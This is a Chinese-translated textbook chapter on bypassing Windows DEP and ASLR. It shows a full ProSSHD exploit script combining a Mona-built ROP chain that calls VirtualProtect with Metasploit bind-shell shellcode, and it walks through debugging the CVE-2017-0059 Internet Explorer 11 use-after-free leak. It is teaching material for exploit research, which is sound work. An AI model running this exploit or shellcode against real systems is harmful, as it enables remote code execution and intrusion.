“应用程序可选”类别不被认为比另外两类漏洞缓解措施更有效，因为应用程序可以编译为不参与选定的控制，并且也容易受到任何拥有十六进制编辑器并进入其中修改有意义标志的人的攻击。Microsoft 自 Windows 7 起删除了对两个关键函数（NtSetInformationProcess 和 SetProcessDEPPolicy）的支持，以防止应用程序选择是否参与 DEP。这些函数通常与研究人员 Skape 和 Skywing 发现的一种技术一起使用，以禁用运行中进程的 DEP。¹

“OS 控制”类别包括 OS 支持的那些漏洞缓解措施，其中一些是可配置的，例如 DEP。系统管理员可以选择哪些第三方应用程序参与 DEP，而不是允许应用程序自行决定。OS 控制（如地址空间布局随机化 (ASLR)）自 Windows Vista 起默认启用，包括随机化内存中的段，包括栈和堆。

“编译器控制”类别包括安全 Cookie、重定基和控制流防护等保护。如果库未使用 /DYNAMICBASE 选项编译，则它每次被应用程序加载时都会请求映射到同一静态内存地址。Microsoft 的 EMET 和 Windows Defender 漏洞防护等工具可以使用称为“强制 ASLR”的控制来覆盖此行为。

漏洞缓解主题需要单独的一章，并不是本章的一般关注点。本章专注于击败 DEP 和 ASLR——因此对其他缓解措施的关注有限。话虽如此，我们在适当时也必须介绍隔离堆和 MemGC。

## 地址空间布局随机化 (ASLR)

地址空间布局随机化的目的是向进程使用的内存寻址引入随机性（熵）。这增加了漏洞利用过程中的难度，因为内存地址不断变化。Microsoft 正式在 Windows Vista 及后续操作系统中引入了 ASLR。应用程序和 DLL 可以选择使用 /DYNAMICBASE 链接器标志（这是默认行为），以确保加载的模块也能享受随机化的好处。每个 Windows 版本的熵都不同。如你所想象，64 位 Windows 10 支持的随机化远优于 32 位 Vista 系统（即首次引入 ASLR 的系统）。事实上，64 位版本的 Windows 可以受益于高熵 ASLR (HEASLR)，这大大增加了可用虚拟地址空间范围。想象一下，如果一个房间里有 1,000 把椅子，你可以选择坐在其中一把上。每次你回到房间，都可以从 1,000 个可用座位中选择一个新座位。如果你真正随机选择座位，那么有人猜到你坐在哪里的机会是 1000 分之 1。让我们假设这是一个 32 位示例。接下来，想象一下，如果你进入一个有 50,000 个可用座位的体育场。你仍然只需要一个座位，但位置会更难猜到，因为座位数量更多。这个例子当然不是按比例缩放的，但它说明了问题。


## 增强缓解体验工具包 (EMET) 和 Windows Defender Exploit Guard

内存中某些段在随机化地址时熵较低，尤其是在 32 位操作系统和 32 位应用程序上。这可能导致进程遭受暴力攻击，具体取决于条件，例如进程在尝试利用过程中是否崩溃。历史上，内核中的随机化（例如驱动程序寻址和硬件抽象层 (HAL)）也较为有限。高熵 ASLR 是随 Windows 8 引入的，由 Ken Johnson 和 Matt Miller 在内华达州拉斯维加斯的 Black Hat 2012 会议上介绍。它大大增加了熵池中的位数，使得地址预测更加困难，同时也使利用喷射技术变得更加困难。2 在 Black Hat 2016 上，Matt Miller 和 David Weston 发表了题为“Windows 10 缓解改进”的演讲。您可以在章节末尾的“进一步阅读”部分找到演示文稿的链接。

长期以来，Microsoft 通过增强缓解体验工具包 (Enhanced Mitigation Experience Toolkit, EMET) 提供了更强的漏洞利用缓解支持。在撰写本文时，EMET 5.5x 是最稳定的版本。EMET 中或由 EMET 管理的漏洞利用缓解示例包括导出地址表访问过滤 (Export Address Table Access Filtering, EAF/EAF+)、栈迁移保护、深度钩子、ASLR 改进、SEHOP 支持、字体保护、其他 ROP 保护以及多种其他控制。其中每一项都给攻击者带来了额外挑战。必须使用已知（以及新颖）技术来绕过或禁用某个控制。EMET 的管理较之前版本有所改进，允许轻松选择参与的应用程序，并能对每个应用程序强制执行哪些漏洞利用缓解进行细粒度控制。部分 EMET 控制在 Windows 7 和 Windows 8 上原生可用，但需要一定程度的配置，通常涉及与注册表交互。EMET 提供了一种更直接的方法来以细粒度管理这些控制。许多 EMET 控制无法原生使用，需要安装 EMET。

Microsoft《安全情报报告》第 12 卷展示了一个示例：未打补丁的 Windows XP SP3 系统遭遇 184 个漏洞利用，其中 181 个成功。随后，他们应用了一个版本的 EMET，再次运行测试，由于 EMET，163 个漏洞利用被阻止。3

Microsoft 宣布 EMET 将于 2018 年 7 月停止支持，该日期是在延长 18 个月后确定的。4 然而，当安全社区中许多人表示失望时，Microsoft 听取了意见，并宣布 EMET 将通过 Windows Defender 延续。Windows Defender Exploit Guard 支持 EMET 中大多数控制。主要问题是，至少在撰写本文时，Exploit Guard 仅面向 Windows 10 用户提供，起始版本为 2017 年秋季创意者更新。这意味着，在 Windows 7 和 8 上继续使用 EMET 将在 2018 年 7 月后不再受支持。

### 绕过 ASLR

绕过 ASLR 最简单的方法是返回到未使用 /DYNAMICBASE 选项编译的模块中。第 13 章中讨论的 Mona 工具有一个选项可列出所有未链接 ASLR 的模块：

```
!mona noaslr
```

当针对 wsshd.exe 进程运行此 mona 命令时，日志页面上会提供以下表格。

```
0BADF00D No aslr & no rebase modules :
0BADF00D [+] Generating module info table, hang on...
0BADF00D - Processing modules
0BADF00D - Done. Let's rock 'n roll.
0BADF00D
0BADF00D Module info :
0BADF00D
```

| 基址 | 顶址 | 大小 | 重定位 | SafeSEH | ASLR | NXCompat | 系统 DLL | 版本, 模块名 & 路径 |
|------|-----|------|--------|---------|------|----------|--------|----------------------------|
| 0x7c340000 | 0x7c396000 | 0x00056000 | False | True | False | False | True | 7.10.3052.4 [MSVCR71.dll] |
| 0x05c50000 | 0x05c6f000 | 0x0001f000 | False | False | False | False | True | 2.31.0000 [ctfd32.dll] (C: |
| 0x7c140000 | 0x7c243000 | 0x00103000 | False | True | False | False | False | 7.10.3077.0 [MFC71.DLL] (C: |
| 0x0c400000 | 0x0c484000 | 0x00084000 | False | True | False | False | False | 1.0.0.1 [lxputts.exe] (C: |
| 0x10000000 | 0x100483600 | 0x00036000 | False | True | False | False | False | -1.0- [lxe setup.dll] (C:\Pro: |

```
0BADF00D Action took 0:00:00.4680000
```

如您所见，MSVCR71.dll 模块 *不* 受 ASLR 保护。我们将在以下示例中使用它来绕过 DEP。您系统上的屏幕结果可能会因所使用的 Mona 版本以及其他因素（例如调试器外观设置）而有所不同。


注意：此方法并不能真正*绕过*ASLR，但就目前而言，只要仍有开发人员不使用 /DYNAMICBASE 选项编译模块，它至少是一种可行的“规避”ASLR 的方法。这当然是最简单的选择。有时，部分返回指针覆盖可用于绕过 ASLR，尤其是在 32 位进程中。

一种更困难但更有收益的击败 ASLR 的方法是查找内存泄漏。如果可以泄漏已加载模块中已知对象的地址，我们可以从完整地址中减去其已知的相对虚拟地址偏移，以确定重定位后的模块加载地址。掌握此信息后，可以即时生成 ROP 链。本章后面我们将演练一个针对 Internet Explorer 11 的使用后释放内存泄漏，该泄漏允许完全绕过 ASLR。使用后释放错误通常是由于 C++ 对象被过早释放而导致的。如果对释放对象仍存在引用，则可能通过在释放位置分配恶意、受控对象来利用它。


### 绕过 DEP 和避免 ASLR

为演示绕过 DEP，我们将使用第 13 章中熟悉的程序 ProSSHD v1.2。

### VirtualProtect

如果进程需要在栈或堆中执行代码，可以使用 VirtualAlloc 或 VirtualProtect 函数来分配内存和/或将现有页标记为可执行。VirtualProtect 的 API 如下：

```
BOOL WINAPI VirtualProtect(
 _in   LPVOID lpAddress,
 _in   SIZE_T dwSize,
 _in   DWORD  flNewProtect,
 _out  PDWORD lpflOldProtect
);
```

因此，我们需要将以下内容放入堆栈并调用 VirtualProtect()：

- lpAddress 要标记为可执行的页区域的基址。
- dwSize 要标记为可执行的大小（字节）；需要为 shellcode 的扩展留出空间。但是，将标记整个内存页，因此可以使用“1”。
- flNewProtect 新保护选项：0x00000040 是 PAGE_EXECUTE_READWRITE。
- lpfOldProtect 用于存储旧保护选项代码的变量指针。

使用以下命令，我们可以确定 MSVCR71.dll 内指向 VirtualProtect() 的指针地址：

```
!mona ropfunc MSVCR71.dll
```

该命令将输出提供到名为 ropfunc.txt 的文件中，该文件位于 Mona 配置为使用的输出文件夹中。

### 面向返回编程

那么，如果无法在栈上执行代码，我们该怎么办？在其他地方执行？但是在哪里？在现有的链接模块中，有许多以 RETN 指令结尾的小代码序列。这些代码序列可能会被程序执行，也可能不会。想象一下，我们通过缓冲区溢出控制了进程。如果我们将一系列指向这些所需代码序列的指针布局好，由栈指针指向，并依次返回到每个序列，我们就可以保持对进程的控制并使其听命于我们。这称为*面向返回编程*，由 Hovav Shacham 首创。它是 ret2libc 等技术的后继技术。

### 小工具

上一节中提到的小代码段正是我们所称的*小工具*。此处使用*代码*一词是因为它不必是程序或模块使用的指令；您可以跳转到预定指令中间的地址，或可执行内存中的任何其他位置，只要它执行您要执行的任务，并将执行返回到栈指针指向的下一个小工具。以下示例显示了内存地址 0x778773E2 处 ntdll.dll 内使用的预定指令：

```
778773E2 890424 MOV DWORD PTR SS:[ESP],EAX
778773E5 C3 RETN
```

观察当我们从 0x778773E2 移动到 0x778773E3 时会发生什么：

```
778773E3 04 24 ADD AL, 24
778773E5 C3 RETN
```

代码序列仍以返回结尾，但返回上方的指令已更改。如果这段代码对我们有意义，我们可以将其用作小工具。因为栈上 ESP 或 RSP 指向的下一个地址是另一个 ROP 小工具，所以返回语句的效果是调用下一段代码。同样，这种编程方法与 ret2libc 类似，实际上是其后继技术，如第 11 章所讨论。使用 ret2libc 时，我们用函数（例如 system()）的起始地址覆盖返回指针。在 ROP 中，一旦我们获得指令指针的控制权，就会将其指向指向我们小工具的指针的位置，并通过链条返回。

某些小工具包含我们需要补偿的不需要的指令，例如 POP 或其他可能对栈或寄存器产生负面影响的指令。请查看反汇编：

```
XOR EAX, EAX
POP EDI
RETN
```


在本示例中，我们希望将 EAX 寄存器清零，然后返回。
不幸的是，中间有一条 POP EDI 指令。为补偿这一点，我们可以在堆栈上简单添加 4 个字节的填充，以便不会将下一个小工具的地址弹入 EDI。如果 EDI 中有我们需要的内容，则此小工具可能无法使用。
让我们假设此小工具中的不需要的指令可以容忍，因此我们通过在堆栈上添加填充来补偿。现在，请看下面的示例：

```
XOR EAX, EAX
POP EAX
RETN
```

在本示例中，我们只是将 POP EDI 改为 POP EAX。如果我们的目标是将 EAX 寄存器清零，那么不需要的 POP EAX 将使此小工具无法使用。还有其他类型的不需要的指令，其中一些可能非常难以解决，例如访问未映射的内存地址。

## 构建 ROP 链

使用来自 corelanc0d3r 的 Mona PyCommand 插件，我们可以找到给定模块的推荐小工具列表（-cp nonnull 正在被使用，以确保 ROP 链中未使用空字节）：

```
!mona rop -m msvcr71.dll -cp nonnull
```

执行此命令会创建多个文件，包括以下文件：

- 一个 rop_chains.txt 文件，其中包含可用于禁用 DEP 的已完成或半完成的 ROP 链，使用诸如 VirtualProtect() 和 VirtualAlloc() 之类的函数。这些链可以为您节省无数小时手动构建 ROP 链的时间。
- 一个 rop.txt 文件，包含大量可能作为您利用的一部分有用的小工具。生成的 ROP 链开箱即用的情况很少见。您经常会发现自己正在寻找小工具来补偿限制，而 rop.txt 文件可以提供帮助。
- 一个名为 stackpivot.txt 的文件，其中仅包含栈枢轴指令。
- 取决于所使用的 Mona 版本，可能会生成其他文件，例如 rop_suggestions.txt 和包含已完成 ROP 链的 XML 文件。此外，生成的 ROP 链可能会因您使用的 Mona 版本和选择的选项而异。

关于该函数及其参数的更多信息可以在 Mona 用户页面中找到。

rop 命令运行需要一段时间，并将输出文件生成到您使用 Mona 的 !mona config -set workingfolder <PATH>/%op 命令所选择的任何文件夹中。非常详细的 rop.txt 文件的内容将包含诸如此类的条目：

## 有趣的小工具

```
0x7c35a002 : # ADD EAX,ECX # RETN ** [MSVCR71.dll] ** | {PAGE_EXECUTE_READ}
0x7c34e03f : # POP ESI # RETN ** [MSVCR71.dll] ** | {PAGE_EXECUTE_READ}
0x7c35a040 : # MOV EAX,ECX # RETN ** [MSVCR71.dll] ** | {PAGE_EXECUTE_READ}
0x7c34c048 : # DEC ECX # RETN ** [MSVCR71.dll] ** | {PAGE_EXECUTE_READ}
...
```

从此输出中，您可以将小工具串联在一起以完成手头的任务，为 VirtualProtect() 构建参数并调用它。事情并不像听起来那么简单；您必须使用现有的资源。您可能需要发挥创造力。以下代码在针对 ProSSHD 程序运行时，演示了一个可行的 ROP 链，它调用 VirtualProtect() 来修改堆栈上 shellcode 所在位置的权限，使其可执行。wsshd.exe 已重新启用 DEP。该脚本已命名为 prosshd_dep.py。


注意 您可能需要或不需要 # -*- coding: utf-8 -*- 行。

```
#prosshd_dep.py
# -*- coding: utf-8 -*-
import paramiko
from scpclient import *
from contextlib import closing
from time import sleep
import struct

hostname = "192.168.10.104"
username = "test1"
password = "asdf"

# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=31337, RHOST=, EXITFUNC=process,
shellcode = (
"\xdd\xc1\xd9\x74\x24\xf4\xbb\xc4\xaa\x69\xa8\x58\x33\xc9\xb1"
"\x56\x83\xe8\xfc\x31\x58\x14\x03\x58\xd0\x48\x98\xc3\x30\x05"
"\x5f\x87\xc0\x0e\x76\x9e\x62\xf1\xa4\xe8\x7e\xa3\x78\xc5\xaa\x4f"
"\xf2\x8b\x5e\xc4\x76\x04\x50\x6d\x3c\x72\x5f\x6e\xf0\xba\x33"
"\xac\x92\x46\x4e\xe0\x74\x76\x81\xf5\x75\xbf\xfc\xf5\x24\x68"
"\x8a\xa7\xd8\x1d\xce\x7b\xd8\xf1\x44\xc3\xa2\x74\x9a\xb7\x18"
"\x76\xcb\x67\x16\x30\xf3\x0c\x70\xe1\x02\xc1\x62\xdd\x4d\x6e"
"\x50\x95\x4f\xa6\xa8\x56\x7e\x86\x67\x69\x4e\x0b\x79\xad\x69"
"\xf3\x0c\xc5\x89\x8e\x16\x1e\xf3\x54\x92\x83\x53\x1f\x04\x60"
"\x65\xcc\xd3\xe3\x69\xb9\x90\xac\x6d\x3c\x74\xc7\x8a\xb5\x7b"
"\x08\x1b\x8d\x5f\x8c\x47\x56\xc1\x95\x2d\x39\xfe\xc6\x8a\x6e"
"\x5a\x8c\x39\xf3\xdd\xcf\x55\x30\xd0\xef\xa5\x5e\x63\x83\x97"
"\xc1\xdf\x0b\x94\x8a\xf9\xcc\xdb\xa1\xbe\x43\x22\x49\xbf\x4a"
"\xe1\x1d\xef\xe4\xc0\x1d\x64\xf5\xed\xc8\x2b\xa5\x41\xa2\x8b"
"\x15\x22\x12\x64\x7c\xad\x4d\x94\x7f\x67\x48\x92\xb1\x53\xa9"
"\x74\xb0\x63\x37\xec\x3d\x85\xad\xfe\x6b\x1d\x59\x3d\x48\x96"
"\xfe\x3e\xba\x8a\x57\xa9\xf2\xc4\x6f\xd6\x02\xc3\xdc\x7b\xaa"
"\x84\x96\x97\x6f\xb4\xa9\xbd\xc7\xbf\x92\x56\x9d\xd1\x51\xc6"
"\xa2\xfb\x01\x6b\x30\x60\xd1\xe2\x29\x3f\x86\xa3\x9c\x36\x42"
"\x5e\x86\xe0\x70\xa3\x5e\xca\x30\x78\xa3\xd5\xb9\x0d\x9f\xf1"
"\xa9\xcb\x20\xbe\x9d\x83\x76\x68\x4b\x62\x21\xda\x25\x3c\x9e"
"\xb4\xa1\xb9\xce\x06\xb7\xc5\x38\xf1\x57\x77\x95\x44\x68\xb8"
"\x71\x41\x11\xa4\xe1\xae\xc8\x6c\x11\x5e\x50\xc4\xba\xa0\x01"
"\x54\xa7\x52\xfc\x9b\xde\xd0\xf4\x63\x25\xc8\x7d\x61\x61\x4e"
"\x6e\x1b\xfa\x3b\x90\x88\xfb\x69")

# ROP chain generated by Mona.py, along with fixes to deal with alignment.
rop = struct.pack('<L',0x7c349614) # RETN, skip 4 bytes [MSVCR71.dll]
rop += struct.pack('<L',0x7c34728e) # POP EAX # RETN [MSVCR71.dll]
rop += struct.pack('<L',0xfffffcdf) # Value to add to EBP,
rop += struct.pack('<L',0x7c1B451A) # ADD EBP,EAX # RETN
rop += struct.pack('<L',0x7c34728e) # POP EAX # RETN [MSVCR71.dll]
rop += struct.pack('<L',0xfffffdff) # Value to negate to 0x00000201
rop += struct.pack('<L',0x7c353c73) # NEG EAX # RETN [MSVCR71.dll]
rop += struct.pack('<L',0x7c34373a) # POP EBX # RETN [MSVCR71.dll]
rop += struct.pack('<L',0xffffffff) #
rop += struct.pack('<L',0x7c352555) # INC EBX #FPATAN #RETN MSVCR71.dll
rop += struct.pack('<L',0x7c352174) # ADD EBX,EAX # RETN [MSVCR71.dll]
rop += struct.pack('<L',0x7c344efe) # POP EDX # RETN [MSVCR71.dll]
rop += struct.pack('<L',0xffffffc0) # Value to negate to 0x00000040
rop += struct.pack('<L',0x7c351eb1) # NEG EDX # RETN [MSVCR71.dll]
rop += struct.pack('<L',0x7c36ba51) # POP ECX # RETN [MSVCR71.dll]
rop += struct.pack('<L',0x7c38f2f4) # &Writable location [MSVCR71.dll]
rop += struct.pack('<L',0x7c34a490) # POP EDI # RETN [MSVCR71.dll]
rop += struct.pack('<L',0x7c346c0b) # RETN (ROP NOP) [MSVCR71.dll]
rop += struct.pack('<L',0x7c352dda) # POP ESI # RETN [MSVCR71.dll]
rop += struct.pack('<L',0x7c3415a2) # JMP [EAX] [MSVCR71.dll]
rop += struct.pack('<L',0x7c34d060) # POP EAX # RETN [MSVCR71.dll]
rop += struct.pack('<L',0x7c37a151) # ptr to &VirtualProtect()
rop += struct.pack('<L',0x7c378c81) # PUSHAD # ... # RETN [MSVCR71.dll]
rop += struct.pack('<L',0x7c345c30) # &push esp # RET [MSVCR71.dll]
```

```
req = "\\x41" * 489
nop = "\\x90" * 200
```

```
ssh_client = paramiko.SSHClient()
ssh_client.load_system_host_keys()
ssh_client.connect(hostname, username=username, key_filename=None, password=password)
sleep(1)
with closing(Read(ssh_client.get_transport(), req+rop+nop+shellcode)) as scp:
    scp.receive("foo.txt")
```

虽然乍一看遵循此程序可能看起来很困难，但当您意识到它只是一系列指向包含宝贵指令的链接模块区域的指针，后跟一个只是返回下一个小工具的 RETN 指令时，您就能看出其中的窍门。有些小工具用于加载寄存器值（为调用 VirtualProtect 做准备）。还有其他小工具用于补偿各种问题，以确保将正确的参数加载到相应的寄存器中。在使用 Mona 生成的 ROP 链时，本文作者确定，当对齐得当时，对 VirtualProtect() 的调用将成功进行；但是，从 Ring0 的 SYSEXIT 返回时，我们返回得太深，进入了 shellcode 的中间部分。为补偿这一点，手动添加了一些小工具，以确保 EBP 指向我们的 NOP 滑板。一个人可以花时间精确地排列东西，这样就不需要那么多填充；但是，该时间也可以用于其他任务。

在以下代码中，我们首先将值 0xfffffcdf 弹入 EAX。当此值与指向我们 shellcode 的 EBP 中的地址相加时，它将回绕 2^32 并指向我们的 NOP 滑板。


rop   += struct.pack( '<L',0x7c34728e)   # POP EAX # RETN [MSVCR71.dll]
rop   += struct.pack( '<L',0xfffffcdf)   # Value to add to EBP,
rop   += struct.pack( '<L',0x7c1b451a)   # ADD EBP,EAX # RETN

要计算这个，你只需要做一些基本数学运算，以确保EBP指向NOP滑板内部的位置。最后一条指令执行此加法。要展示前后对比，请查看以下图片。


在这张第一张图中，程序在调整EBP之前暂停。如你所见，EBP指向shellcode的中间。下一张图显示调整完成后EBP所指向的地址。


如你所见，EBP指向我们的NOP滑板，就在shellcode之前。利用程序中使用的shellcode由Metasploit生成，它将shell绑定到TCP端口31337。当允许利用程序继续时，shellcode成功执行，端口打开，如图所示。


## 通过内存泄漏击败ASLR

在之前的示例中，绕过ASLR是微不足道的。让我们看看一个更复杂的示例，通过利用内存泄漏错误来击败ASLR。这个错误来自Google Project Zero团队的Ivan Fratric，并被分配了CVE-2017-0059，可在www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0059查看。该错误于2017年1月10日被报告给Microsoft，一旦Microsoft发布补丁，触发代码于2017年3月20日公开发布。Fratric在发布中指出：“IE中存在一个使用后释放错误，可能导致信息泄漏/内存泄露。”5 根据Microsoft的说法，该错误影响Internet Explorer 9和11。我们将在此演练中使用IE 11。

在2017年初为《灰帽黑客，第五版》研究这个错误时，我们发现2017年7月，Claudio Moleta完成了一些出色的工作，将这个错误与另一个由Ivan Fratric发现的类型混淆错误相结合，以演示完整的代码执行。6 第二个错误是一个允许完全控制指令指针的类型混淆错误。7 强烈建议你在研究完第一个错误后，查看Claudio整合的完全可用的利用程序。我们将详细演练这个使用后释放内存泄漏错误，展示浏览器对象和文本分配中涉及的复杂性。提供了各种触发代码文件，以防你希望自行尝试研究这个错误。你需要一个未打补丁的Windows 7 x64版本，运行IE 11版本11.0.9600.18537。调试使用了Windows 8.0调试工具，因为Windows 10调试工具中的合并行为干扰了PageHeap功能的使用。

如果你难以找到Windows 7 x64虚拟机，Microsoft在以下位置提供了一些用于各种Web应用程序测试的虚拟机：
https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/。然后，你需要将Internet Explorer回滚到Microsoft修补该错误之前的以下更新：https://www.catalog.update.microsoft.com/search.aspx?q=kb3207752。

### 触发错误

首先，让我们看看Ivan Fratric提供的触发代码：

```
<!-- saved from url=(0014)about:internet -->
<script>
function run() {
var textarea = document.getElementById("textarea");
var frame = document.createElement("iframe");
textarea.appendChild(frame);
frame.contentDocument.onreadystatechange = eventhandler;
form.reset();
}
function eventhandler() {
document.getElementById("textarea").defaultValue = "foo";
alert("Text value freed, can be reallocated here");
}
</script>
<body onload=run()>
<form id="form">
<textarea id="textarea" cols="80">aaaaaaaaaaaaaaaaaaaaaaa</textarea>
```

我们将从底部的HTML开始。正在创建一个ID为textarea的文本区域对象。cols="80"属性以字符为单位设置可见文本区域的大小，并且它被填充了25个小写a的值。在MSHTML.DLL中存在CTextArea类：

```
CTextArea::CreateElement (CHtmTag *, CDoc *, CElement * *)
```

CTextArea的CreateElement成员函数中的反汇编显示了一个对HeapAllocClear的调用，对象大小为0x78字节，并且它将对象分配到Isolated Heap中，如图所示：

```
mov ecx, g_hIsolatedHeap ; hHeap
push 78h
pop edx ; dwBytes
call ??$HeapAllocClear@$00@MemoryProtection@@YGPAXPAXI@Z
```

这种行为是Microsoft引入到MSHTML.DLL中的MemGC和Isolated Heap利用缓解措施的一部分，它大大降低了使用后释放错误的可利用性。在Fratric的披露中，他表示：“注意：因为文本分配不受MemGC保护并且发生在进程堆上，所以涉及文本分配的使用后释放错误仍然可利用。”⁴ 在我们研究这个错误的过程中，你会发现文本分配被分配到默认进程堆中，并且不使用受保护的释放，这让我们绕过了MemGC。

在触发代码中，同样在底部的HTML中，你可以看到函数run在页面加载时立即执行。还创建了一个ID为"form"的表单元素。让我们继续看run函数，它包含以下内容：

```
function run() {
var textarea = document.getElementById("textarea");
var frame = document.createElement("iframe");
textarea.appendChild(frame);
frame.contentDocument.onreadystatechange = eventhandler;
form.reset();
}
```

首先，使用JavaScript的document.getElementById方法获取文本区域元素，并将其分配给名为textarea的变量。然后创建一个iframe对象并将其分配给名为frame的变量。iframe对象随后作为子节点附加到textarea节点。接下来是frame.contentDocument.onreadystatechange = eventhandler;这一行。首先，让我们讨论一下文档的readyState属性。在文档加载期间，它可以处于多种状态之一：loading、interactive和full。“当此属性的值发生变化时，readystatechange事件会在文档对象上触发。”⁸ 因此，当iframe对象上发生“就绪状态更改”事件时，会调用eventhandler函数。form.reset()调用将重置所有值。这会导致frame节点的状态发生变化并调用eventhandler函数。让我们再看一遍eventhandler函数：

```
function eventhandler() {
document.getElementById("textarea").defaultValue = "foo";
alert("Text value freed, can be reallocated here");
}
```

此函数将textarea对象的value属性更改为字符串“foo”。随后会弹出一个显示“Text value freed, can be reallocated here”的警告。出于某种原因，重置表单的值，然后将textarea对象的文本设置为其他内容，会导致内存泄漏。如你所见，调用eventhandler后，浏览器窗口中textarea对象内显示的文本并未显示“foo”，而是显示了一些乱码信息，随后跟着旧的a。正如Fratric所建议的，在eventhandler函数中将value属性更改为“foo”后分配内存，可能会导致内存分配到与仍被引用的textarea值相关联的已释放内存。如果我们能用有用的内容替换它，那么内存泄漏可能会变得有意义。我们有点跳过了自身并在进行猜测，但现在我们需要确认假设并朝着绕过ASLR的方向努力。

让我们运行Ivan Fratric的原始触发代码。该文件名为trigger.html。这里有两张图片。第一张显示点击警告之前的浏览器窗口，第二张显示点击警告之后的浏览器窗口。


显然，点击警告上的OK按钮后，结果是异常的。它显示了看起来像函数名一部分的内容。当我们再次刷新然后点击OK时，我们得到以下结果，看起来是一些奇怪的字符，随后跟着一些a。


让我们打开PageHeap并再次运行触发文件。我们首先从管理员命令行shell导航到c:\Program Files (x86)\Windows Kits\8.0\Debuggers\x86并执行命令gflags.exe /p /enable iexplore.exe /full。这会打开PageHeap，它以更详细的方式跟踪堆上的内存分配。有关PageHeap内部工作原理的更多信息可以在https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/gflags-and-pageheap找到。在同一个命令


在提示会话中，我们还运行了 windbg.exe -I。这将把 WinDbg 设置为我们的事后调试器。现在 PageHeap 已为 IE 11 运行，并且我们的事后调试器已设置好，我们可以运行触发文件了。这次 WinDbg 弹出了以下结果（请注意，我们必须刷新一次浏览器屏幕，才能让调试器捕获异常）：

```
eax=0bea6fc8 ebx=00000019 ecx=0bea6fc8 edx=0bea6fc8 esi=0d6f7fcc edi=00000000
eip=754ac006 esp=09f6b398 ebp=09f6b3a4 iopl=0         nv up ei pl nz na pe nc
cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b             efl=00010206
msvcrt!wcscpy_s+0x46:
754ac006 0fb706        movzx   eax,word ptr [esi]
ds:002b:0d6f7fcc=????
```

崩溃发生在 msvcrt!wcscpy_s+0x46 位置的 movzx eax,word ptr [esi] 指令处。这是“带零扩展移动”指令，应该将 ESI 指向的内存中的 WORD 加载到 32 位 EAX 寄存器中。ESI 指向未映射或已释放的内存（由 ???? 表示），导致崩溃。这是典型的使用后释放（use-after-free）漏洞行为。以下显示了使用 k 命令转储调用堆栈的结果。仅显示了前几个命中项：

```
0:007> k
ChildEBP RetAddr
09f6b3a4 6f34e8f0 msvcrt!wcscpy_s+0x46
09f6b498 6f25508e MSHTML!CElement::InjectInternal+0x6fa
09f6b4d8 6f25500c MSHTML!CRichtext::SetValueHelperInternal+0x79
09f6b4f0 6f254cf9 MSHTML!CRichtext::DoReset+0x3f
09f6b574 6f254b73 MSHTML!CFormElement::DoReset+0x157
09f6b590 711205da MSHTML!CFastDOM::CHTMLElement::Trampoline_reset+0x33
```

函数名称中提到了 DoReset 和 InjectInternal，这可能让人认为这可能是 form.reset() JavaScript 代码以及将默认值设置为 “foo” 的结果，但我们目前尚未验证任何内容。

接下来，让我们使用 WinDbg 扩展命令 !heap -p -a esi 查看 ESI 指向的内存：

```
0:007> !heap -p -a esi
  address 0d6f7fcc found in
 _DPH_HEAP_ROOT @ 361000
 in freed allocation (   DPH_HEAP_BLOCK:         VirtAddr         VirtSize)
                                  d612d68:         d6f7000              2000
73ec947d verifier!AVrfDebugPageHeapReAllocate+0x0000036d
778711b1 ntdll!RtlDebugReAllocateHeap+0x00000033
7782ddc5 ntdll!RtlReAllocateHeap+0x00000054
6f56761f MSHTML!CTravelLog::AddEntryInternal+0x00000215
6f54f48d MSHTML!MemoryProtection::HeapReAlloc<0>+0x00000026
6f54f446 MSHTML!_HeapReAlloc<0>+0x00000011
6efedeea MSHTML!BASICPROPPARAMS::SetStringProperty+0x00000546
6f038877 MSHTML!CBase::put_StringHelper+0x0000004d
6f986d60 MSHTML!CFastDOM::CHTMLElement::Trampoline_Set_defaultValue+0x00000070
```

我们可以看到函数 MSHTML!BASICPROPPARAMS::SetStringProperty 调用了 HeapReAlloc。HeapReAlloc 函数用于调整现有内存块的大小。此行为通常会导致从 NTDLL 内部调用 memmove 函数。然后将释放该块的旧位置。让我们使用管理员命令行 shell 和 gflags.exe /p /disable iexplore.exe 关闭 PageHeap。

### 追踪内存泄漏

我们将要处理的下一个触发文件是 trigger_with_object.html。让我们查看源代码，看看我们在做什么：

```
<!-- saved from url=(0014)about:internet -->
<script>
function run() {
var textarea = document.getElementById("textarea");
var frame = document.createElement("iframe");
textarea.appendChild(frame);
frame.contentDocument.onreadystatechange = eventhandler;
form.reset();
}
function eventhandler() {
alert("Before Realloc and Free");
document.getElementById("textarea").defaultValue = "foo";
var x = document.createElement("INPUT");
x.setAttribute("type", "range");
}
</script>
<body onload=run()>
<form id="form">
<!-- <textarea id="textarea" cols="80">aaaaaaaaaaaaaaaaaaaaaaaaaaa</textarea> -->
<script>alert("Before Creation of Text Area Object: Attach and set breakpoints")</script>
<textarea id="textarea"
cols="80">aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</textarea>
<br><input id="clickMe" type="button" value="Replace Text With B's"
onclick="setBs();" />
<script>
function setBs() {
var text = document.getElementById("textarea"); // Getting the swapped element
text.value = "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
}
</script>
```

您需要注意几个重要的更改。首先，我们增加了 textarea 对象 value 属性中字母 a 的数量。增加或减少字节数会改变分配大小。这会影响最终用于替换已释放内存的内容。请随意尝试更改此字段的大小并检查结果。在将值设置为 “foo” 后，您在 eventhandler 函数中创建的对象类型及其相应的分配，与 textarea 对象的 value 属性大小直接相关。这需要通过实验才能完全理解。我们还在屏幕上添加了一个调用 setBs 函数的按钮。该函数只是将 value 属性更改为一组字母 B。您也可以使用 innerHTML，但 value 符合规范。接下来，请回头查看 eventhandler 函数，看看我们正在创建的对象。您应该注意到以下两行新代码：

```
var x = document.createElement("INPUT");
x.setAttribute("type", "range");
```

